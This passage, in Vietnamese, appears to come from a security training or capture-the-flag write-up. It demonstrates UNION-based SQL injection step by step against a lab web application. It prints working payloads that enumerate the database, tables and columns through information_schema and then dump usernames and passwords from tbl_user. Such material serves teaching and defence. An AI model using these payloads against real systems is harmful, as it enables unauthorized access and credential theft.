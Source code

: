 ```
' UNION SELECT 1,2,3,4,5,6,7-- -
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/5a4061c1-01a8-4eda-a112-0825cce6b00b)

Thành công, thông báo lỗi đã biến mất và thông tin đã được hiển thị, nhưng bây giờ muốn hiển thị dữ liệu của người dùng. Trước tiên, cần lấy được tên CSDL 

```
' UNION SELECT 1,2,3,4,5,6,database()-- -
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/6db66a3a-a25c-4b39-a2c6-c2a487fcdde1)

Ta thấy vị trí số 7 được hiển thị trước đó ở đâu thì bây giờ nó hiển thị tên của cơ sở dữ liệu là _user_

Tiếp theo để hiển thị được danh sách các bảng trong cơ sở dữ liệu tìm được. Ta dùng câu truy vấn sau

```
' UNION SELECT 1,2,3,4,5,6,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'user'-- -
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/cc7fd2c6-2566-432b-80de-27bdaeed1118)

Tìm được 1 bảng _tbl_user_. Ở đây hàm **group\_concat()** lấy cột được chỉ định ( table_name ) từ nhiều hàng được trả về. Về CSDL **information\_schema** , mọi người dùng cơ sở dữ liệu đều có quyền truy cập vào cơ sở dữ liệu này và nó chứa thông tin về tất cả các cơ sở dữ liệu và bảng mà người dùng có quyền truy cập.

Tiếp theo ta sẽ tìm tên cột của bảng _tbl_user_

```
' UNION SELECT 1,2,3,4,5,6,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'tbl_user'-- -
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/3f4e0fd4-a632-4469-b683-56cfef4f7b93)

Ta tìm được 7 cột của bảng _tbl_user_ như trên. Sau đó để lấy được password người dùng ta dùng câu truy vấn sau

```
' UNION SELECT 1,2,3,4,5,6,group_concat(username,':',password SEPARATOR '<br>') FROM tbl_user-- -
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/30032a30-c298-47cf-9b96-5e8f84f70984)

